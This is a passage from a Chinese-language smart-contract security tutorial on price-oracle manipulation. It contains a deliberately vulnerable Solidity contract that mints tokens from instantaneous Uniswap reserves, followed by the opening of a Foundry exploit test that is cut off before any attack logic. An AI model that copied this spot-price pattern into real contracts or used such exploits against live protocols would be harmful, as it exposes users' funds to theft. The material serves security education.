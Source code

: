 - **由于错误报价导致预言机操纵**： 错误报价指预言机上传的喂价与真实喂价存在偏差。无论是预言机有意还是无意导致了错误报价，都会给接入预言机的协议带来操纵风险。
- **由于市场覆盖广度不够而导致的预言机操纵**：如果预言机只覆盖少数交易市场，就更有可能被操纵，因为攻击者可以在不影响整体市场价格的情况下操纵这几个交易市场的价格。

### 漏洞代码示例

[oracle.sol](https://github.com/brycewai/Web3-Security/blob/main/vulnerability/smartContract/oracle.sol){:target="_blank"}  

#### 漏洞合约

**示例参考： [https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md](https://github.com/AmazingAng/WTF-Solidity/blob/main/S15_OracleManipulation/readme.md){:target="_blank"}**

```cpp
contract oUSD is ERC20 {
    // 主网合约
    address public constant FACTORY_V2 = 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f;
    address public constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;

    IUniswapV2Factory public factory = IUniswapV2Factory(FACTORY_V2);
    IUniswapV2Pair public pair = IUniswapV2Pair(factory.getPair(WETH, BUSD));
    IERC20 public weth = IERC20(WETH);
    IERC20 public busd = IERC20(BUSD);

    constructor() ERC20("Oracle USD", "oUSD") {}

    // 获取ETH price
    function getPrice() public view returns (uint256 price) {
        // pair 交易对中储备
        (uint112 reserve0, uint112 reserve1,) = pair.getReserves();
        // ETH 瞬时价格
        price = reserve0 / reserve1;
    }

    function swap() external payable returns (uint256 amount) {
        // 获取价格
        uint256 price = getPrice();
        // 计算兑换数量
        amount = price * msg.value;
        // 铸造代币
        _mint(msg.sender, amount);
    }
}
```

#### EXP代码

```cpp
// pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

```